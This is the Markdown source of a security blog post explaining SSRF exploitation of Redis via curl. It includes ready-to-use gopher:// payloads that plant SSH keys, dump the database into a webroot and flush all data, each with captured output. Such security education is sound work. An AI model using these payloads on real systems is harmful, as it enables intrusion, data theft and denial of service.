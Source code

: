 ```yaml
---
layout: blog-single
title:  curl Based SSRF Exploits Against Redis
description: A look at what's possible with curl access to Redis via an SSRF vulnerability
date: August 14, 2017
image: /img/blog/ssrf-redis/curl-redis-ssrf-hacking.jpg
tags: [Security]
---
```


[SSRF (server side request forgery)](https://www.owasp.org/index.php/Server_Side_Request_Forgery) is a type of vulnerability where an attacker is able trick a remote server into sending unauthorized requests. SSRF opens the door to many types of undesirable things such as information disclosure, DoS and RCE. In this post, we'll take a look at the types of exploits that are achievable when we have access to curl Redis via SSRF.

<!-- excerpt_separator -->

### Getting Redis To Execute Our Commands

As documented in [a blog post titled "Trying to hack Redis via HTTP requests" by the French company, Agarri](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) if simply we curl Redis, it will interpret each line in the HTTP request as a command....

```
$ curl -v 127.0.0.1:6379 --max-time 1                                                                            ~
* Rebuilt URL to: 127.0.0.1:6379/
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:6379
> User-Agent: curl/7.52.1
> Accept: */*
>
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'User-Agent:'
-ERR unknown command 'Accept:'
* Operation timed out after 1002 milliseconds with 148 bytes received
* Curl_http_done: called premature == 1
* stopped the pause stream!
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 148 bytes received
```

> :bulb: **Tip:** Note the usage of the `max-time` flag here. It's important to understand that [by default Redis won't close the connection](https://redis.io/topics/clients#client-timeouts) and, [without specifying a timeout, neither will curl](https://curl.haxx.se/libcurl/c/CURLOPT_TIMEOUT.html).

[Agarri's post](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) suggests that we can use HTTP request headers or the request POST body to send malicious payloads. While this sounds good in theory, I couldn't get it to work (if you see something I've done wrong let me know!)...

```
$ curl --trace-ascii /dev/stdout -X POST -H "Content-Type: text/plain" --data "CONFIG SET maxmemory 5" http://127.0.0.1:6379/ --max-time 1
Note: Unnecessary use of -X or --request, POST is already inferred.
== Info:   Trying 127.0.0.1...
== Info: TCP_NODELAY set
== Info: Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
=> Send header, 125 bytes (0x7d)
0000: POST / HTTP/1.1
0011: Host: 127.0.0.1:6379
0027: User-Agent: curl/7.52.1
0040: Accept: */*
004d: Content-Type: text/plain
0067: Content-Length: 22
007b:
=> Send data, 22 bytes (0x16)
0000: CONFIG SET maxmemory 5
== Info: upload completely sent off: 22 out of 22 bytes
<= Recv data, 29 bytes (0x1d)
0000: -ERR unknown command 'POST'
<= Recv data, 176 bytes (0xb0)
0000: -ERR unknown command 'Host:'
001e: -ERR unknown command 'User-Agent:'
0042: -ERR unknown command 'Accept:'
0062: -ERR unknown command 'Content-Type:'
0088: -ERR unknown command 'Content-Length:'
-ERR unknown command 'POST'
-ERR unknown command 'Host:'
-ERR unknown command 'User-Agent:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Content-Type:'
-ERR unknown command 'Content-Length:'
== Info: Operation timed out after 1002 milliseconds with 205 bytes received
== Info: Curl_http_done: called premature == 1
== Info: stopped the pause stream!
== Info: Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 205 bytes received
$ redis-cli                                                                                                      ~
127.0.0.1:6379> config get maxmemory
1) "maxmemory"
2) "999999999999999"
127.0.0.1:6379>
```

Fortunately, there's another option. Using a trick I learned about in [an SSRF report to Imgur's bug bounty on hackerone](https://hackerone.com/reports/115748), we can send requests to Redis using [the Gopher protocol](https://en.wikipedia.org/wiki/Gopher_(protocol)). 

This is approach is likely more versatile than using the POST body or HTTP request headers in an SSRF scenario as it's more likely that we'll have complete control over the endpoint (including request protocol) than it is that we'll be able to force the HTTP request method, manipulate the post body, or manipulate request headers.

Here's what it would look like to get Redis to divulge its `maxmemory` configuration value.

```
$ curl gopher://127.0.0.1:6379/_CONFIG%20GET%20maxmemory --max-time 1                                      ~
*2
$9
maxmemory
$15
999999999999999
curl: (28) Operation timed out after 1002 milliseconds with 41 bytes received
```

### What Can We Do With It?

The ability to send commands to Redis opens the door to many nasty exploits. Here are a few...

#### Manipulation of the configuration values to upload a public key

This technique was outlined in [a blog post titled "A few things about Redis security" by Redis' creator Salvatore Sanfilippo (aka antirez)](http://antirez.com/news/96). If we know the the name of a user on the server, we could set the Redis' `dir` to that user's `.ssh/` directory and set the `dbfilename` to `authorized_keys`. We can use `%0D%0A` to issue multiple commands in a single request...

```
$ curl -v gopher://127.0.0.1:6379/_CONFIG%20SET%20dir%20/home/mpchadwick/.ssh%0D%0ACONFIG%20SET%20dbfilename%20authorized_keys --max-time 1
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

Next we would use the `SET` command to get Redis to save our public key to its memory, and then finally issue a `SAVE` command to write the public key to the `authorized_keys` file.

This is pretty much game over as the attacker can now SSH directly to the server!

#### Manipulation of the `dir` configuration value to steal the database

With the ability to manipulate the `dir` value, another option would be to update the `dir` to a publicly accessible location (the webroot). For example the attacker could try `/var/www/html`,  the default webroot for Apache on most servers.

```
$ curl gopher://127.0.0.1:6379/_CONFIG%20SET%20dir%20/var/www/html --max-time 1   
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

The attacker could then trigger another `SAVE` to place `dump.rdb` into the webroot and download the entire database. 

It's very likely that this will give them access to sensitive information such as customer PII (personally identifiable information), database connection credentials or credentials for external API services.

#### DoS

There are countless DoS opportunities with the ability to send arbitrary commands to the Redis instance. The first thing that springs to mind is the repeatedly send `FLUSHALL` commands, preventing Redis from ever effectively storing anything.

```
$ curl -v gopher://127.0.0.1:6379/_FLUSHALL --max-time 1                                                         ~
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

### Takeaways

As we can see, SSRF can quickly become fatal if the attacker is able to send requests to the Redis instance. In addition to being mindful of potential SSRF exploits within the application codebase during the code review process, it is not advisable to solely rely on network layer security to protect your Redis instance. [Redis' built in AUTH feature](https://redis.io/commands/auth) allows you require a password to speak to Redis which adds an additional layer of protection against potential attackers.
